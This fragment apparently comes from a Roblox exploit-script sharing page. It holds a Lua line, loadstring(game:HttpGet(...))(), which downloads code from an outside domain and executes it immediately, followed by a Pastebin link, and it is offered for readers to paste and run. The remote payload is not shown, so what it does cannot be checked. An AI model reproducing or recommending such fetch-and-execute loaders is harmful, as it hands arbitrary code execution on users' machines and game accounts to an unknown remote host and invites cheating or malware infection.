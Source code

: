 script: loadstring(game:HttpGet("https://egorikusa.space/11e2a1abc12064b064fc9aef.lua", true))()

Pastebin: https://pastebin.com/5mvx4j1R
